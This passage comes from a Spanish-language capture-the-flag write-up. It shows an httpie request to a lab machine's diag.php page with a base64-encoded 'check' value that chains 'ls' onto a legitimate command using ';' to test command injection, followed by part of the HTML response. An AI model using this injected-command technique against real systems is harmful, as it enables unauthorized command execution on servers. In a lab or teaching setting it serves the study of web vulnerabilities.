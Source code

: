 Logre ejecutar de manera exitosa el mismo comando controlando el output. Veamos si se puede concatenar comandos con `;`

```text
xbytemx@laptop:~$ http --form http://10.10.10.105/diag.php "Cookie: PHPSESSID=0pe9hk302pnup5s84e9984gd24; path=/" check=$(printf "quagga;ls" | base64)
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 960
Content-Type: text/html; charset=UTF-8
Date: Wed, 02 Jan 2019 18:58:20 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <title>Diagnostics</title>

    <link href="css/bootstrap.min.css" rel="stylesheet">
    <link href="css/style.css" rel="stylesheet">

  </head>
  <body>
    <div class="container-fluid">
        <div class="row">
                <div class="col-md-2">
                </div>
                <div class="col-md-8">
                        <br>
                        <img alt="Lyghtspeed" src="img/logo.png">
                        <br><br>
                        <ul class="nav nav-pills">
                                <li class="nav-item">
                                        <a class="nav-link" href="/dashboard.php">Dashboard</a>
                                </li>
                                <li class="nav-item">
                                        <a class="nav-link" href="/tickets.php">Tickets</a>
                                </li>
                                <li class="nav-item">
                                        <a class="nav-link disabled" href="#">Monitoring</a>
                                </li>
                                <li class="nav-item">
                                        <a class="nav-link active" href="/diag.php">Diagnostics</a>
                                </li>
                        </ul>
                        <br>
                        <div>
                                <p>Warning: Invalid license, diagnostics restricted to built-in checks</p>
                                <form role="form" method="post">
                                        <input type="hidden" id="check" name="check" value="cXVhZ2dh">
                                        <div class="form-group">
                                                <button type="submit" class="btn btn-primary">
```